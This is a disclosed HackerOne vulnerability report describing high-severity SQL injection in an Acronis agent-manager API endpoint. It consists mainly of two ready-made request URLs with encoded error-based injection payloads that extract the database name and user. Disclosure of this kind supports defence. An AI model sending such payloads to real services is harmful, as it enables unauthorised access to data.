 # SQL Injection in agent-manager

## Report Details
- **Report ID**: 962889
- **URL**: https://hackerone.com/reports/962889
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-08-20T02:36:05.140Z
- **Disclosed**: 2021-08-16T09:37:25.718Z

## Reporter
- **Username**: bourbon
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
1.https://mc-beta-cloud.acronis.com/api/agent_manager/v2/unit_configurations?name=update-schedule&no_data=false&tenant_id=1590228&unit=atp-agent%27and%2F%2A%2A%2Fextractvalue%281%2Cconcat%28char%28126%29%2C%28select+database%28%29%29%29%29and%27
2.https://mc-beta-cloud.acronis.com/api/agent_manager/v2/unit_configurations?name=update-schedule&no_data=false&tenant_id=1590228&unit=atp-agent%27and%2F%2A%2A%2Fextractvalue%281%2Cconcat%28char%28126%29%2C%28select+user%28%29%29%29%29and%27

## Impact

sql injection

## Attachments
- 1597890793.png
- 1597890845.jpg
